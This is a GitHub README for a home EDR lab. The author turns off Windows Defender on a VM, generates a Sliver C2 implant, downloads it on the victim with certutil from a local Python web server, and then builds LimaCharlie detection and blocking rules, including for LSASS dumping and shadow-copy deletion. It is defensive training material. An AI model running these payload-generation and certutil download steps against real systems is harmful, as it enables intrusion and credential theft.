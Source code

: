 # EDR-Attack-and-Defense-Lab

In this foundational SOC Home Lab I spun up a Win10 vm as my victim client and disabled Windows Defender EDR. Set up a C2 framework using Sliver for emulating threat-actor behavior by crafting my very own malicious payload. Threw attacks, caught the detections and watched the malicious traffic. Set up automated D&R rules to mitigate these attacks.

Eric Capuano's Guide: https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro?utm_campaign=post&utm_medium=web

### Setup:

First I spun up both virtual machines. The attack machine will run on Ubuntu Server, and the endpoint will be running Windows 11. In order for this lab to work smoothly I turned off all the Windows Security solutions (Virus & threat protection, Microsoft Defender Firewall, etc.) on the Windows 11 VM, making it my vulnerable victim machine. I am also going to be installing Sliver on the Ubuntu machine as my primary attack tool, and setting up LimaCharlie on the Windows machine as an EDR solution. LimaCharlie will have a sensor linked to the Windows machine, and will be importing sysmon logs.

### Skills Learned

- Advanced understanding of EDR concepts and practical application.
- Proficiency in analyzing and interpreting network telemetry.
- Ability to generate, deploy, transfer, and execute a Command & Control payload on the Windows endpoint using Sliver.
- Enhanced knowledge of Windows commands to gather information and assess system privileges.
- Familiarization with normal vs. anomalous activity to enhance threat detection capabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.
- Understanding the process of performing hash scans on sites like VirusTotal to identify known malware. As well as understanding false negative results when dealing with a newly crafted payload.
- Detection rule creation and response implementation on a SecOps Cloud Platform such as LimaCharlie.


### Tools Used

- LimaCharlie EDR for endpoint detection and response capabilities,
monitoring and capturing telemetry, creating and applying detection rules.
- Sysmon integrated with LimaCharlie for detailed network logging and event capture on the Windows endpoint.
- VirusTotal used for scanning and analyzing the hash of executables to identify known malware.
- Sliver C2 Server for crafting and deploying a malicious payload.

## Steps

*Ref 1: Windows Security controls off*

![image](https://github.com/user-attachments/assets/415b034b-db82-4da7-bdf9-88b55b2f52c3)

![image](https://github.com/user-attachments/assets/9d6597e1-a266-4ab8-8852-72c1754aeede)

![image](https://github.com/user-attachments/assets/0e89acb1-c5fe-4243-85f5-938961e2f978)

![Disabling WinDefender via Registry Editor](https://github.com/user-attachments/assets/4e244807-80e6-41bd-9445-be3569724400)

#### Now that my Windows machine is vulnerable, it's time to SSH into my Ubuntu AttackBox.

*Ref 2: Using PuTTY to connect via SSH*
![Screenshot 2024-09-02 113412](https://github.com/user-attachments/assets/97f91ab3-c686-439a-b0c2-6c7954162a34)

#### Once in my Ubuntu machine I use the _'sudo su'_ command to temporarily gain root access, navigate to the sliver directory and launch Sliver-server.

*Ref 3: Launching Sliver-server*

![image](https://github.com/user-attachments/assets/bb40665c-01da-4dda-a41b-4d2cfb7b4e79)

Using the command _'generate --http 192.168.247.129 --save /opt/sliver'_, I generate a Command & Control payload executable.

*Ref 3: Generating C2 session payload*

![SLIVER C2 payload GOOD_TWINE](https://github.com/user-attachments/assets/a1d170c5-f92d-4f9b-b112-41a524bf70ec)

![GOOD_TWINE implant](https://github.com/user-attachments/assets/5409a0bf-3760-48b1-a7be-91e6f5fc16c3)

Running the command _'implants'_ above, you’ll see it has created my payload with the random name **GOOD_TWINE**. 
_We will be using this payload to infect the Windows machine in the next step..._

#### I exited Sliver and made sure I was in the sliver directory. 
To download the C2 easily from the Linux VM to the Windows VM I spun up a temporary web server using Python

_'python3 -m http.server 80'_

![image](https://github.com/user-attachments/assets/14db0600-1b15-4087-a406-707710d04588)

#### I switched my attention to the Windows VM and launched an Administrative PowerShell console.
Executing the command _'certutil.exe -f -urlcache http://192.168.247.129/GOOD_TWINE.exe GOOD_TWINE.exe'_ starts the download of my payload.

![Malware Staged 2](https://github.com/user-attachments/assets/8fd84d5e-a28e-48cd-a13f-abc199bb91e3)


![We are In!](https://github.com/user-attachments/assets/299b4831-809b-474f-8e88-d56db49344c5)

#### Now that we are hosting a live session between the two machines, I input the commands _'info' 'getprivs'_ and _'ps -T'_ to check my remote user privileges, information on the victim machine, and see the specific security products used.
_In this case my victim machine is using Sysmon64 and Windows Smart Screen_.

![Inside the Windows machine](https://github.com/user-attachments/assets/0352ae0d-93e0-47cb-ae54-c729b6974974)

![Checking user privs](https://github.com/user-attachments/assets/4bf919a8-2b4f-4892-88e2-3a1a14a2b577)

![Identifying running processes in remote system](https://github.com/user-attachments/assets/a5abe060-f99e-404f-a6fa-2422107eb357)

#### We can see processes like _SeDebugPrivilege_ and _SeImpersonatePrivilege_ are Enabled, which means we are logged in as Admin.
![Implant admin privs on Windows machine](https://github.com/user-attachments/assets/628cf8ab-4473-40b4-9a46-36a155edf91c)


### Now time to go into Lima Charlie to see the noise!

Using my host machine I click the sensors tab, to see that my Windows machine is online.

We can look inside our LimaCharlie SIEM and see telemetry from the attack. We can identify the payload thats running and see the IP its connected to.



We can also use LimaCharlie to scan the hash of the payload through VirusTotal; however, it will be clean since we just created the payload ourselves.

Now on the attack machine we can simulate an attack to steal credentials by dumping the LSASS memory. In LimaCharlie we can check the sensors, observe the telemetry, and write rules to detect the sensitive process.

Part 4 - Blocking an attack

Now instead of simply detection, we can practice using LimaCharlie to write a rule that will detect and block the attacks coming from the Sliver server. On the Ubuntu machine we can simulate parts of a ransomware attack, by attempting to delete the volume shadow copies. In LimaCharlie we can view the telemetry and then write a rule that will block the attack entirely. After we create the rule in our SIEM, the Ubuntu machine will have no luck trying the same attack again.

Part 5 - Tuning false positives

Part 6 - Trigger YARA scans with a detection rule











